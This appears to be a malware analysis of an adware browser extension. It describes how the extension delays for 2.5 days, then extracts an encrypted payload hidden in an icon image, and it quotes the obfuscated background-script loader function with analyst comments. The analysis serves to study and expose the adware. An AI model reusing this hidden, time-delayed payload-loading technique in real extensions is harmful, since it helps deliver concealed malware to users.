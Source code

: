 ## :bento: Components in Package

- *install/bg.js* - Background script. Runs when extension is loaded and is independent of any browser tab/window.
- *install/content.js* - Content script. Runs in the context of the webpage.
- *icons/cross.png* - Image of Lithuanian flag. Contains an encrypted payload.

## :link: **Loading Chain**

This adware's code contain various unused and misleadingly-named functions. In this short analysis I will focus only on how this adware loads itself, and leave analysis of effects for a later date.

### Step 1

*bg.js* runs and sets an obfuscated timestamp value in `storage.local` and `storage.sync`. 2.5 days later, the code loads *icons/cross.png*, removes the first 250 bytes and stores the remainder into a variable called `cross` in `storage.local`.

[***install/bg.js***](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Unzipped/2.3.0%20-%20%7B0aa583da-e323-42f2-b4d2-0bc61b493171%7D/install/bg.js): [Enfka()](https://github.com/rainyrainyday/HomeBrewOverlay/blob/master/Unzipped/2.3.0%20-%20%7B0aa583da-e323-42f2-b4d2-0bc61b493171%7D/install/bg.js#L114)

```javascript
function Enfka() {
  var a = Math.abs(chrome.runtime.id.split("").reduce(function(a, b) {
            a = (a << 5) - a + b.charCodeAt(0); return a & a;
          }, 0)) % 1000, b = btoa(a).replace(/=/g, "");

  chrome.storage.sync.get(null, function(c) {
    // RAIN: Timestamp value set
    if (c = c[b]) {
      if (c /= a,
          c = ((new Date).getTime() - c) / 3600000 / 24,
          console.log(c), 2.5 < c) { // RAIN: More than 2.5 days

          c = browser.extension.getURL("icons/cross.png");
          var d = new XMLHttpRequest;
          d.onreadystatechange = function(a) {
            if (this.readyState === XMLHttpRequest.DONE && 200 === this.status) {
              a = {};
              var b = this.responseText.indexOf("substring") + 9;
              // RAIN: Extract last 12565 bytes
              a.cross = this.responseText.substring(b);
              chrome.storage.local.set(a);
            }
          };
          d.open("GET", c, !0); d.send(null);
      }
    // RAIN: Timestamp value not set
    } else {
      c = (new Date).getTime() * a,
      d = {}, chrome.storage.local.set((d[b] = c, d), function() {}),
      d = {}, chrome.storage.sync.set((d[b] = c, d), function() {});
    }
  });
}
```
